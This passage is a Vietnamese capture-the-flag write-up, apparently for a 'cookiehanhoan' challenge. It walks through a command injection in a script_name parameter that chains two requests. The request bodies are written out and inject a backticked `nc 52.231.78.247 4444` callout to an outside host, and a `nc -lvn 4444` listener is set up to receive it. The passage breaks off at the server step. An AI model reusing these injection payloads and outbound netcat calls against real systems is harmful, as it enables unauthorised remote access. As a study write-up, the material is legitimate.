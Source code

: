 Chúng ta sẽ cần 2 request:
- Request 1: Nhập command vào `script_name` nằm trong dấu backticks (``), khi chạy `bash` với `script_name` nó sẽ kiểu như sau:
    - bash /src/scripts/taidh/\`id\` -> `taidh` ở đây là cái `script_dir` mình nhập vào.
    ![image](https://user-images.githubusercontent.com/54855855/140279649-84f49cfc-2a1d-4569-8e30-aced3140725a.png)
    - Như ảnh trên thì các bạn có thể thấy command id nằm trong backticks đã được thực thi.
    - Vậy bây giờ mình thử payload lên local của mình đã dựng
    ![image](https://user-images.githubusercontent.com/54855855/140279940-d8f65b14-e254-4686-8c4e-7850ded09aa2.png)
    - Sau khi chạy request thì check trong server mình dựng thấy file `log1.txt` có chứa \`id\` giống như lúc đầu mình test.
    ![image](https://user-images.githubusercontent.com/54855855/140280371-7298a9b3-ffec-4611-bdc4-4028110fe58a.png)
    - Vậy giờ làm sao để nó thực thi cái file này mà chạy được cái id kia => cần `request 2`
- Request 2: Ở request này chúng ta chỉ cần đổi `script_name` và `script_url`
    - thay `script_name` bằng tên bất kì.
    - `script_url` -> `file:///home/taidh/cookiehanhoan/logs/log1.txt` (dường dẫn đến file `log1` ở request 1). Có thể kiểm tra đường dẫn bằng cách sau
    ![image](https://user-images.githubusercontent.com/54855855/140282707-6dcdbdd1-b9d1-4618-b0e5-bc8568d4c7e7.png)
    - Payload ở request 2 sẽ kiểu như này 
    ![image](https://user-images.githubusercontent.com/54855855/140282938-9317535f-94cd-4fc5-8e00-6a64c97da947.png)
    - Giải thích ở request 2 này nó sẽ hoạt động như sau:
        - Ở function `download_script` nó sẽ ghi cái nội dung của file `log1.txt` mà mình chụp ở trên vô file `abd` sau đó `bash` sẽ chạy file `abd` đó.
        - Tương tự như dưới đây
        ![image](https://user-images.githubusercontent.com/54855855/140283951-0462115e-1411-409c-a550-c2be17971e4a.png)
    - Khi send xong request 2 vì chương trình ko in ra kết quả trả về nên chúng ta cần [reverse shell](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/#:~:text=to%20prevent%20them.-,A%20reverse%20shell%20is%20a%20shell%20session%20established%20on%20a,machine%20and%20continue%20their%20attack.)

### Payload ở local
Đầu tiên thử lại `nc` trên local của mình.

Cần chạy command `nc -lvn 4444`
```
+ Request 1:
script_dir=taidh1&script_name=`nc 52.231.78.247 4444`&script_url=file:///etc/hosts&command_log_file=log2

+ Request 2:
script_dir=taidh1&script_name=abd&script_url=file:///home/taidh/cookiehanhoan/logs/log2.txt&command_log_file=log1
```
Sau khi send request 2 thì nhận được ![image](https://user-images.githubusercontent.com/54855855/140291936-a1c40d49-f8d6-4989-842a-aea2a0169cc3.png)

 Như vậy là đã `nc` thành công trên local giờ lên server thui

### Payload ở server
Vẫn giữ nguyên `nc -lvn 4444`
